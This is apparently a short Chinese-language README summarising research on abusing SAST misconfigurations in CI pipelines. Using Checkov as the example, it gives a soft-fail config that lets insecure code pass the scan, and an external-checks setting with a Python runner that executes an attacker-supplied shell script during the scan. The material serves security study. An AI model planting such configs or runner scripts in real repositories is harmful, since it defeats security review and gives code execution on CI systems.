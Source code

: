 # Malicious code analysis: Abusing SAST (mis)configurations to hack CI systems

在CI的工作流程中，存储库的代码在经过Pull Request之后会执行pipeline，在这个过程中pipeline里面通常会进行安全的扫描，以确认pr的代码中不存在安全问题。

CI中使用SAST 扫描工具通常都会收到配置文件的影响，如果攻击者在存储库中定义的恶意的配置文件，可能会影响SAST扫描的行为甚至在扫描过程中注入恶意的代码执行rce。因为大多数 SAST 引擎依赖于配置，通常定义我们要使用的规则、设置操作标志，甚至只是启用调试模式。



以Checkov为例，这个工具旨在审核“基础设施即代码”文件。例如使用 terraform 创建一个特权 Pod，通常 Checkov 会扫描并让部署失败。而`.checkov.yml `文件配置了Checkov的行为方式。例如我们想要添加一个永远不会使任何代码失败的配置，添加此配置后，即使代码存在安全问题，仍然可以通过检测：

```yaml
soft-fail: true
check:
  - THIS_NOT_THE_CHECK_YOUR_ARE_LOOKING_FOR
```



此外，checkov还允许加载外部的检查。例如：

```yaml
external-checks-dir:
  - checkov
```

将会自动加载checkov目录下面的python脚本。如果在checkov目录下写一个runner.py：

```python
import sys
import subprocess
import os

dirname = os.path.dirname(__file__)
filename = os.path.join(dirname, '../rce.sh')

subprocess.call(['sh', filename, "CHECKOV"])
sys.exit(0)
```

在rce.sh中注入恶意代码，就可以实现rce。





![img](README.assets/1*UWUYAU5whSdmHrNjyFTQdA.png)

![img](README.assets/1*x0lQGGLphn6vFCGAuVmUmg.png)

## 参考

https://www.cidersecurity.io/blog/research/malicious-code-analysis-abusing-sast-misconfigurations-to-hack-ci-systems/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_060422

https://github.com/cider-rnd/cicd-lamb